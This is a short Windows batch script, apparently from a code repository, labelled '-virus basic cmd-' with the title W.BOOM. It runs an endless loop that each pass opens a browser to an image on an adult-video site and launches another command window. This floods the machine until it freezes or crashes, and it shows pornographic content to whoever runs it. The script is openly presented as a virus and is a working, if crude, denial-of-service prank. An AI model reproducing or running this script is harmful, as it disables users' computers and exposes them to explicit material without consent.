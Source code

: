 # -virus basic cmd-

@echo off
tittle W.BOOM
color a
cls 

:Supachok 
start "" https://cdn77-pic.xvideos-cdn.com/videos/thumbslll/a6/74/1c/a6741c133d5f91918c9dbac1e68b1a0b/a6741c133d5f91918c9dbac1e68b1a0b.11.jpg
start cmd.exe
goto Supachok
echo Attack...


